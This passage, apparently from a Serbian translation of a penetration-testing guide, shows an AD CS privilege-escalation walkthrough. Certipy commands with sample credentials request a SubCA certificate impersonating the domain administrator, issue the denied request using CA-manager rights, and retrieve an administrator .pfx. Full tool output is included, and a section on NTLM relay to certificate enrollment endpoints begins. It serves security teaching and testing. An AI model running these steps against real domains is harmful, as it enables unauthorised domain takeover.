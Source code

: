 Ako smo ispunili preduslove za ovaj napad, možemo početi **zahtevanjem sertifikata na osnovu `SubCA` šablona**.

**Ovaj zahtev će biti odbijen**, ali ćemo sačuvati privatni ključ i zabeležiti ID zahteva.

```bash
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template SubCA -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 785
Would you like to save the private key? (y/N) y
[*] Saved private key to 785.key
[-] Failed to request certificate
```

Sa našim **`Upravljaj CA` i `Upravljaj Sertifikatima`**, možemo zatim **izdati neuspeli zahtev za sertifikat** koristeći `ca` komandu i parametar `-issue-request <ID zahteva>`.

```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

I na kraju, možemo **dobiti izdati sertifikat** koristeći `req` komandu i parametar `-retrieve <ID zahteva>`.

```bash
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -retrieve 785
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 785
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate has no object SID
[*] Loaded private key from '785.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

## NTLM preusmeravanje na AD CS HTTP krajnje tačke - ESC8

### Objašnjenje

{% hint style="info" %}
U okruženjima gde je instaliran **AD CS**, ako postoji ranjiva **web upisna krajnja tačka** i ako je objavljen barem jedan **šablon sertifikata** koji dozvoljava **upisivanje računara domena i autentifikaciju klijenta** (kao što je podrazumevani **`Machine`** šablon), postaje moguće da **bilo koji računar sa aktivnom uslugom spulera bude kompromitovan od strane napadača**!
{% endhint %}
